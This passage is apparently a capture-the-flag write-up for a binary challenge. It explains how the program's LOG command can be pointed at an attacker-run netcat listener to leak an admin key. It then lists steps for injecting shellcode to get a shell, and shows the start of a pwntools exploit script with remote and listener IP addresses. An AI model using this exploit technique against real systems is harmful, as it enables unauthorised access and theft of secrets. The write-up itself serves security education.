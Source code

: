 So we just need to make use of the `LOG` command to send the logs to our server and we can get admin access!

> Fun fact: notice that inside `log_connect` (handler for `LOG`)
> ```c
> int log_connect(){
>     int ret;
>     int port;
>     unsigned int size;
>     char ip_str[0x100];
>     ...
> ```
> the `ip_str` has an unnecessarily large size of `0x100` to make sure we don't overwrite the `key` value :) small detail but cool~

# Solution

With our 2 key observations, we can lay out the exploit steps (in 2 parts):

First part
1. Run `nc -l 8000` on our own server
2. Start the program and call `LOG`, then pass in our server IP and port 8000
3. Run `ADMIN` and input any key (should be wrong unless super lucky)
4. Run `INSERT` and immediately close input channel (this is easy to do with pwntools)
5. Get leaked key value from our server's (listener) output

In particular, this is the output I had:
```
Listening on 0.0.0.0 8000
CONNECT
key is wrong
Insert Code
size is too big:1315057728, must be less than 4096
process end
```

6. Start a new connection to the program, and call `INSERT` and pass in shellcode to open shell
7. Call `ADMIN`, then pass in the key we obtained
8. We should get a shell, and we can `cat` the flag :)

# Final Script
`get_key.py`:
```python
from pwn import *
import time

DEBUG = True

def open_conn():
    if DEBUG:
        return process("./keyinhaystack")
    else:
        return remote("192.168.0.45", 5555)

conn = open_conn()

def hook_log():
    ip = b"127.0.0.1" if DEBUG else b"165.22.244.105"
    send_command("LOG")
    recv_line()
    send_line(len(ip).to_bytes(4, 'little'))
    send_line(ip)
    recv_line()
    send_line((8000).to_bytes(4, 'little'))
```